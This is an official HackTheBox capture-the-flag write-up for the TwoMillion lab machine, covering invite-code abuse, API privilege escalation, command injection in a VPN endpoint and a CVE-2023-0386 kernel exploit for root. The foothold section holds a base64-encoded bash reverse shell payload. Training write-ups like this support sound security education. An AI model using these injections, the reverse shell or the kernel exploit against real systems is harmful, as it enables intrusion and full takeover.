

        <font size="10">TwoMillion</font>

07<sup>th</sup> Jun 2023 

​Prepared By: TRX

​Challenge Author(s): TRX & TheCyberGeek

​Difficulty: <font color=green>Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- Exploiting invite code, privilege escalation, command injection, and CVE-2023-0386 leads to root access.                                  

## Description

* TwoMillion is an Easy difficulty Linux box that was released to celebrate reaching 2 million users on HackTheBox. The box features an old version of the HackTheBox platform that includes the old hackable invite code. After hacking the invite code an account can be created on the platform. The account can be used to enumerate various API endpoints, one of which can be used to elevate the user to an Administrator. With administrative access the user can perform a command injection in the admin VPN generation endpoint thus gaining a system shell. An .env file is found to contain database credentials and owed to password re-use the attackers can login as user admin on the box. The system kernel is found to be outdated and CVE-2023-0386 can be used to gain a root shell.

## Skills Required

- Basic JavaScript Knowledge
- Basic PHP Knowledge

## Skills Learned

- JavaScript Deobfuscation
- API Enumeration
- Command Injection
- System Enumeration
- CVE-2023-0386

## Enumeration

### Nmap

```bash
nmap -sC -sV -Pn 10.10.10.11
```


The scan reveals ports 22 (SSH) and 80 (Nginx) open, with port 80 redirecting to `2million.htb` , so let's add this vHost to our /etc/hosts file.

```bash
echo '10.10.10.11 2million.htb' | sudo tee -a /etc/hosts
```

Upon accessing the vHost identified above we see the old version of the HackTheBox website.


The website has functionality to login and join the platform. Upon clicking on join followed by Join HTB we are redirected to `/invite` .


This seems to be the old HTB invite code page. There are numerous guides online on how to hack this but let's investigate a bit closer. Taking a look at the page's source code we see the following.

```html
 <script defer src="/js/inviteapi.min.js"></script>
<script defer>
    $(document).ready(function() {
        $('#verifyForm').submit(function(e) {
            e.preventDefault();
            var code = $('#code').val();
            var formData = { "code": code };
            $.ajax({
                type: "POST",
                dataType: "json",
                data: formData,
                url: '/api/v1/invite/verify',
                success: function(response) {
                    if (response[0] === 200 && response.success === 1 &&
                        response.data.message === "Invite code is valid!") {
                        // Store the invite code in localStorage
                        localStorage.setItem('inviteCode', code);
                        window.location.href = '/register';
                    } else {
                        alert("Invalid invite code. Please try again.");
                    }
                },
                error: function(response) {
                    alert("An error occurred. Please try again.");
                }
            });
        });
    });
</script>
```

The second function seems to be called when the submit button is pressed and sends a POST request to `/api/v1/invite/verify` in order to check if the code provided is valid or not. There is also a script called inviteapi.min.js being loaded. Let's see what it does.

```java
eval(function(p,a,c,k,e,d){e=function(c){return
c.toString(36)};if(!''.replace(/^/,String)){while(c--)
{d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function()
{return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new
RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8=
{"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j()
{$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0)
{3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax
|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|g
enerate|verify'.split('|'),0,{}))
```

The JavaScript code seems to be obfuscated, however **[d4js](https://d3js.org/)** and **[ChatGPT](https://chat.openai.com/)** can make short work of de- obfuscating this code. After inputting the code in de4js and clicking on auto decode we get the following readable JavaScript code.

```javascript
 function verifyInviteCode(code) {
    var formData = { "code": code };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function (response) {
            console.log(response);
        },
        error: function (response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response);
        },
        error: function (response) {
            console.log(response);
        }
    });
```

There are two functions in the code above. The first one is similar to the one that we saw earlier in the invite page, that can be used to verify an invite code. The second one is a little more interesting, as it can make a POST request to `/api/v1/invite/how/to/generate` . This endpoint seems very interesting, so in order to access it we can either call this JavaScript function from our browser's console, or use cURL. We will go with the latter.

```bash
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate | jq
```

> **Note:** We use the `-s` switch so that cURL won't show the connection progress. We also use `jq` to beautify the outputted JSON.


The output is in JSON format and contains some interesting data that seems encrypted. The encryption type is hinted as being ROT13 which is basically a Caesars cipher. A hint is also visible that mentions we need to identify the encryption type and decrypt it. The website rot13 can be used to decrypt the above data.
After pasting the encrypted data to the website we get the following message.

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```


The message mentions that we can generate an invite code by making a POST request to /api/v1/invite/generate . Let's do this as shown previously.

```bash
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
```

The output is similar to what we found above, but this time it seems to be encoded instead of encrypted with what seems to be Base64. Let's decode the above Base64 in our terminal.

```bash
echo U1oyN0ktUTVaOVMtREtOSVgtUDNDU00= | base64 -d
SZ27I-Q5Z9S-DKNIX-P3CSM
```

The above appears like a valid invite code. Let's input it into the `/invite` page and click submit.


Indeed the above works and we are redirected to `/register` . The invite code is automatically transferred to this page and filled in.
Let's register with the username `test`, email `test@2million.htb` and a random password of our choice. After clicking register we are redirected to `/login` at which point we can use our newly created account to login to the website.


After logging in we are redirected to `/home` .


The website features only a few pages that work, with the more interesting of those being the Access page.


The Access page allows a user to Download and Regenerate their VPN file to be able to access the HTB infrastructure. Let's fire up BurpSuite and see what the `Connection Pack` download button does.

```http
GET /api/v1/user/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://2million.htb/home/access
DNT: 1
Connection: close
Cookie: PHPSESSID=nufb0km8892s1t9kraqhqiecj6
Upgrade-Insecure-Requests: 1
```

Upon clicking on the button a GET request is sent out to `/api/v1/users/vpn/generate` and in return the VPN file for our current user is downloaded.
Let's try requesting the URL `/api` to see if anything interesting is returned.

```bash
curl -v 2million.htb/api
```

> **Note:** The `-v` flag is used in cURL to see more details about the server response, such as the response code.


It seems we get a status code of `401 Unauthorized` . Let's try providing the website with our PHP session cookie which we can grab either from our browser or from BurpSuite as seen previously.

```bash
curl -sv 2million.htb/api --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```


Now let's request `/api/v1` to see if any endpoints are listed.

```bash
curl 2million.htb/api/v1 --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```


We get a list of quite a few endpoints that are available in the API, with some of the most interesting ones being the admin specific endpoints. As a test we can hit the /admin/auth endpoint to check if we are an admin user.

```bash
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```


As expected we are not currently an administrative user. Let's check out the `/admin/vpn/generate` endpoint by switching our request to POST and including our cookie once more.

```bash
curl -sv -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6"
```


We get a `401 Unauthorised` error, most probably because we are not an admin. Let's move to the final administrative endpoint, `/admin/settings/update` . We note that this request needs to be a PUT as shown in the output from `/api/v1` .

```bash
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
```



Interestingly enough, this time we do not get an `Unauthorized` error, but instead the API replies with `Invalid content type` . It is often for APIs to use JSON for sending and receiving data, and we already
know that the API replies in JSON, so lets set the `Content-Type` header to `JSON` and try again.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

We now get a new error message, specifically that there is a parameter missing called `email` . Let's supply the email for our own user in JSON format.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb"}' | jq
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

We get another error for a missing parameter called `is_admin` . Let's add this as well.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb", "is_admin": true}' | jq
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

Since we set the parameter to `true` , an error message informs us that this variable needs a value of 0 or 1. Let's set it to 1.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"email":"test@2million.htb", "is_admin": '1'}' | jq
{
  "id": 13,
  "username": "test",
  "is_admin": 1
}
```

The above command seems to have been successful as our user information is returned and the `is_admin` variable is set to 1. We can further verify this by accessing the `/admin/auth` endpoint that we saw earlier.

```bash
curl http://2million.htb/api/v1/admin/auth --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" | jq
{
  "message": true
}
```

This time instead of an error we get the value `true` back indicating that we are indeed an admin now.

## Foothold

Let's check out the `/admin/vpn/generate` URL now that we have sufficient permissions.
   
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

The result informs us of a missing parameter called `username` . At this point we can infer that this is the
username of the user that the VPN will be generated for, so let's attempt to input a random username.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test"}'

client
dev tun
proto udp
remote edge-eu-release-1.hackthebox.eu 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>

-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
<SNIP>
```

After sending the above command we see that a VPN configuration file was generated for user test and was printed out to us. If this VPN is being generated via the `exec` or `system` PHP function and there is insufficient filtering in place - which is possible as this is an administrative only function - it might be possible to inject malicious code in the username field and gain command execution on the remote system. Let's test this assumption by injecting the command `;id;` after the username.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;id;"}'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The command is successful and we gain command execution. Let's start a Netcat listener to catch a shell.

```bash
nc -lvp 1234
```

We can then get a shell with the following payload.

```bash
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
```

We encode the payload in Base64 and add it to the following command.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= |
base64 -d | bash;"}'
```


## Lateral Movement

Enumeration of the web directory reveals a file called `.env` which contains database credentials for a user called `admin` .

```bash
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

The `/etc/passwd` file reveals that there is indeed a user on the system called `admin` .

```bash
<SNIP>
admin:x:1000:1000::/home/admin:/bin/bash

memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
```

Owed to password re-use we can login as `admin` over SSH with `SuperDuperPass123` 

```bash
ssh admin@2million.htb
```


The user flag can be found in /home/admin .

## Privilege Escalation

Enumeration of the current user's mails in `/var/mail` reveals a file called `admin` , which contains all the emails for our current user. Let's read it.


The email originates from `ch4p` and is letting the `admin` know that he should perform updates on this system as there have been some serious kernel exploits recently. More specifically an exploit for `OverlayFS / FUSE` is mentioned.
Let's perform a quick Google search with the keywords `overlays fuse exploit` . The results reveal this article about an exploit which is assigned **[CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386)**, that exists in the Linux kernel. Some more research reveals **[this](https://ubuntu.com/security/CVE-2023-0386)** post from Ubuntu that details the vulnerable kernel versions.
Enumeration of the current kernel version reveals that the box is using `5.15.70` .

```bash
admin@ubuntu:~$ uname -a

Linux ubuntu 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022
x86_64 x86_64 x86_64 GNU/Linux
```

We can also see that the box is currently on the `Jammy` release.

```bash
lsb_release -a

No LSB modules are available.
Distributor ID: Ubuntu
Description:  Ubuntu 22.04.2 LTS
Release:  22.04
Codename: jammy
```

The affected kernel versions for `jammy` go up to `5.15.0-70.77` and as seen previously the box is using `5.15.70` so it is a good idea to test if it is vulnerable. There are multiple exploits available online, one of
which is **[this](https://github.com/xkaneiki/CVE-2023-0386)** one on GitHub.
Download the exploit locally by cloning the repository.

```bash
git clone https://github.com/xkaneiki/CVE-2023-0386
```


Compress the entire repository so that it is easier to upload.

```bash
zip -r cve.zip CVE-2023-0386
```


Then upload it using `scp` .

```bash
scp cve.zip admin@2million.htb:/tmp
```

On the box, navigate to `/tmp` and unzip the contents of `cve.zip` .

```bash
cd /tmp
unzip cve.zip
```


As per the instructions on the GitHub page, enter the `CVE-2023-0386` directory and compile the code

```bash
cd /tmp/CVE-2023-0386/
make all
```


> **Note:** The compilation throws a few warnings but these can be safely ignored.

Finally, let's run the exploit in two steps. We run the first command in the background.

```bash
./fuse ./ovlcap/lower ./gc &
[+] len of gc: 0x3ee0
[1] 6153
```

Then we execute the exp binary in the foreground.

```bash
./exp
```


The exploit is successful as shown from the `id` command and the root flag can be found in `/root/` .

## Post Root

There seems to be a file called `thank_you.json` in the root directory along with the flag. Let's read it.

```bash 
cat thank_you.json
 
{"encoding": "url", "data":
"%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786
f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f6469
6e67223a2022626173653634222c202264617461223a20224441514347585167424345454c4341454951517
3534359744168553944776f664c5552765344676461414152446e5163445441474643514542307367423055
6a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685
a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c4241
30594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e5
27741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d30685859
6749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524
a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b675147
42585159436a456345536f4e426b736a41524571414130385151594b4e77424649774563614151564469595
2525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e416973
4246694550424564304941516842437767424345454c45674e497878594b6751474258514b4543734444476
7554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c487931424541
4d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e525
16f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454
776774457841454f676b4a596734574c4545544754734f41444563455363504167643044786374474177675
4304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f
4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a67455
44a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e774246495163
5a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b77456461414
94d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a
424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a6363444
4514b57434550467734344241776c4368597242454d6650416b5259676b4e4c513051537941414444465044
69454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454
651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135
425241734267777854554d6650416b4c4b5538424a785244445473615253414b45535947517770304741517
74731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e6863
3945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454
d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441
454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497
873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f
424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b474
43351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a6342
46534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e446964494843636
25744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a50477941
4145783878476b6c694742417445775a4c497731464e5159554a45454142446f63444377614857675644457
36b485259715477776742454d4a4f78304c4a67344b49515151537a734f5253455747693054454134334852
63724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b3148417774415
6676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41
454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a6944687372424241595
0516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b49414552
4e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"}
```

The data seems to be URL encoded. We can decode it online or with BurpSuite. A good website to do these kind of tasks is **[CyberChef](https://gchq.github.io/CyberChef/)** . After decoding we get the following data.

```
{"encoding": "hex", "data":
"7b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861
636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a2022444
1514347585167424345454c43414549515173534359744168553944776f664c555276534467646141415244
6e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a73644
66d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a735041445948
48547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d61424459474444304
6426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b46533050463073
37446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b3444555
53348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178
786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a4152457141413038515
1594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f4577774764
42774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e4
97878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a
50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674
d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49
644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f41444
5634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a4857
6748444267674452636e4331677044304d4f4f68344d4d4141574a51514e483351664453636448576749445
15537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041
416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c694
3686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78
515241415051514a59674d644b524d4e446a424944534d635743734f4452386d41516333477830735152634
56442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b
5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c53475
5734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e6763646143
6b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445
473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b43
5364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4
469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b434851484132494144547042
4577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f4452383
94268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a7778534151
77436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673
474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151
594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b42424159644
1554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e
67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554
a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151
537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4
e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a46
4457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e51444379305946433
0464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a5177
38784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427
831694f78307044413d3d227d"}
```

This time the data seems to be encoded in HEX. Let's decode once more.

```
{"encryption": "xor", "encrpytion_key": "HackTheBox", "encoding": "base64", "data":
"DAQCGXQgBCEELCAEIQQsSCYtAhU9DwofLURvSDgdaAARDnQcDTAGFCQEB0sgB0UjARYnFA0IMUgEYgIXJQQNHz
sdFmICESQEEB87BgBiBhZoDhYZdAIKNx0WLRhDHzsPADYHHTpPQzw9HA1iBhUlBA0YMUgPLRZYKQ8HSzMaBDYGD
D0FBkd0HwBiDB0kBAEZNRwAYhsQLUECCDwBADQKFS0PF0s7DkUwChkrCQoFM0hXYgIRJA0KBDpIFycCGToKAgk4
DUU3HB06EkJLAAAMMU8RJgIRDjABBy4KWC4EAh90Hwo3AxxoDwwfdAAENApYKgQGBXQYCjEcESoNBksjAREqAA0
8QQYKNwBFIwEcaAQVDiYRRS0BHWgOBUstBxBsZXIOEwwGdBwNJ08OLRMaSzYNAisBFiEPBEd0IAQhBCwgBCEELE
gNIxxYKgQGBXQKECsDDGgUEwQ6SBEqClgqBA8CMQ5FNgcZPEEIBTsfCScLHy1BEAM1GgwsCFRoAgwHOAkHLR0ZP
AgMBXhIBCwLWCAADQ8nRQosTx0wEQYZPQ0LIQpYKRMGSzIdCyYOFS0PFwo4SBEtTwgtExAEOgkJYg4WLEETGTsO
ADEcEScPAgd0DxctGAwgT0M/Ow8ANgcdOk1DHDFIDSMZHWgHDBggDRcnC1gpD0MOOh4MMAAWJQQNH3QfDScdHWg
IDQU7HgQ2BhcmQRcDJgETJxxYKQ8HSycDDC4DC2gAEQ50AAosChxmQSYKNwBFIQcZJA0GBTMNRSEAFTgNBh8xDE
liChkrCUMGNQsNKwEdaAIMBSUdADAKHGRBAgUwSAA0CgoxQRAAPQQJYgMdKRMNDjBIDSMcWCsODR8mAQc3Gx0sQ
RcEdBwNJ08bJw0PDjccDDQKWCEPFw44BAwlChYrBEMfPAkRYgkNLQ0QSyAADDFPDiEDEQo6HEUhABUlFA0CIBFL
SGUsJ0EGCjcARSMBHGgEFQ4mEUUvChUqBBFLOw5FNgcdaCkCCD88DSctFzBBAAQ5BRAsBgwxTUMfPAkLKU8BJxR
DDTsaRSAKESYGQwp0GAQwG1gnB0MfPAEWYgYWKxMGDz0KCSdPEicUEQUxEUtiNhc9E0MIOwYRMAYaPRUKBDobRS
oODi1BEAM1GAAmTwwgBEMdMRocYgkZKhMKCHQHA2IADTpBEwc1HAMtHRVoAA0PdAELMR8ROgQHSyEbRTYAWCsOD
R89BhAjAxQxQQoFOgcTIxsdaAAND3QNEy0DDi1PQzwxSAQwClghDA4OOhsALhZYOBMMHjBICiRPDyAAF0sjDUUq
Dg4tQQIINwcIMgMROwkGD3QcCiUKDCAEEUd0CQsmTw8tQQYKMw0XLhZYKQ8XAjcBFSMbHWgVCw50Cwo3AQwkBBA
YdAUMLgoLPA4NDidIHCcbWDwOQwg7BQBsZXIABBEOcxtFNgBYPAkGSzoNHTZPGyAAEx8xGkliGBAtEwZLIw1FNQ
YUJEEABDocDCwaHWgVDEskHRYqTwwgBEMJOx0LJg4KIQQQSzsORSEWGi0TEA43HRcrGwFkQQoFJxgMMApYPAkGS
zoNHTZPHy0PBhk1HAwtAVgnB0MOIAAMIQ4UaAkCCD8NFzFDWCkPB0s3GgAjGx1oAEMcOxoJJk8PIAQRDnQDCy0Y
FC0FBA50ARZiDhsrBBAYPQoJJ08MJ0ECBzhGb0g4ETwJQw8xDRUnHAxoBhEKIAERNwsdZGtpPzwNRQoOGyM1Cw4
WBx1iOx0pDA=="}
```

This time the output seems to be both Base64 encoded and XORed with the key `HackTheBox` . We can further decrypt this with CyberChef by selecting the From `Base64` and `XOR` operations, setting the XOR key to `HackTheBox` and setting the encoding to `UTF8` . The final message is as follows.

```
Dear HackTheBox Community,
We are thrilled to announce a momentous milestone in our journey together. With immense
joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users!
This incredible feat would not have been possible without each and every one of you.
From the very beginning, HackTheBox has been built upon the belief that knowledge
sharing, collaboration, and hands-on experience are fundamental to personal and
professional growth. Together, we have fostered an environment where innovation thrives
and skills are honed. Each challenge completed, each machine conquered, and every skill
learned has contributed to the collective intelligence that fuels this vibrant
community.
To each and every member of the HackTheBox community, thank you for being a part of
this incredible journey. Your contributions have shaped the very fabric of our platform
and inspired us to continually innovate and evolve. We are immensely proud of what we
have accomplished together, and we eagerly anticipate the countless milestones yet to
come.
Here's to the next chapter, where we will continue to push the boundaries of
cybersecurity, inspire the next generation of ethical hackers, and create a world where
knowledge is accessible to all.
With deepest gratitude,
The HackTheBox Team
```

# Apendix

## Update Settings

The first vulnerability that allows users to set themselves as admin lies in the `update_settings` function in `AdminController.php` .

```php
public function update_settings($router) {
    $db = Database::getDatabase();
    $is_admin = $this->is_admin($router);
    if (!$is_admin) {
        return header("HTTP/1.1 401 Unauthorized");
        exit;
    }
    if (!isset($_SERVER['CONTENT_TYPE']) || $_SERVER['CONTENT_TYPE'] !== 'application/json') {
        return json_encode([
            'status' => 'danger',
            'message' => 'Invalid content type.'
        ]);
        exit;
    }
    $body = file_get_contents('php://input');
    $json = json_decode($body);
    if (!isset($json->email)) {
        return json_encode([
            'status' => 'danger',
            'message' => 'Missing parameter: email'
        ]);
        exit;
    }
    if (!isset($json->is_admin)) {
        return json_encode([
            'status' => 'danger',
            'message' => 'Missing parameter: is_admin'
        ]);
        exit;
    }
    $email = $json->email;
    $is_admin = $json->is_admin;
    if ($is_admin !== 1 && $is_admin !== 0) {
        return json_encode([
            'status' => 'danger',
            'message' => 'Variable is_admin needs to be either 0 or 1.'
        ]);
        exit;
    }
    $stmt = $db->query('SELECT * FROM users WHERE email = ?', ['s' => [$email]]);
    $user = $stmt->fetch_assoc();
    if ($user) {
        $stmt = $db->query('UPDATE users SET is_admin = ? WHERE email = ?', ['s' => [$is_admin, $email]]);
    } else {
        return json_encode([
            'status' => 'danger',
            'message' => 'Email not found.'
        ]);
        exit;
    }

    if ($user['username'] == $_SESSION['username']) {
        $_SESSION['is_admin'] = $is_admin;
    }
    return json_encode(['id' => $user['id'], 'username' => $user['username'], 'is_admin' => $is_admin]);
}
```

More specifically, the following part.

```php
$is_admin = $this->is_admin($router);
if (!$is_admin) {
    return header("HTTP/1.1 401 Unauthorized");
    exit; 
}
```

In the above code the `is_admin` function is called (which is also used to check if a user is admin through the `/api/v1/admin/auth` URL) to check if the current user is an administrator or not. If the resulting variable is false, a 401 Unauthorised is returned. Let's take a look at the `is_admin` function.

```php
public function is_admin($router)
{
    if (!isset($_SESSION) || !isset($_SESSION['loggedin']) || $_SESSION['loggedin'] !== true || !isset($_SESSION['username'])) {
        return header("HTTP/1.1 401 Unauthorized");
        exit;
    }
    $db = Database::getDatabase();
    $stmt = $db->query('SELECT is_admin FROM users WHERE username = ?', ['s' => [$_SESSION['username']]]);
    $user = $stmt->fetch_assoc();
    if ($user['is_admin'] == 1) {
        header('Content-Type: application/json');
        return json_encode(['message' => TRUE]);
    } else {
        header('Content-Type: application/json');
        return json_encode(['message' => FALSE]);
    }
}
```

This function checks the current user session for the `username` and `is_admin` variables and also checks if the value of `is_admin` is equal to 1 at which point it returns JSON with `message` set to true. If this check does not pass, it returns `message => false` .
     
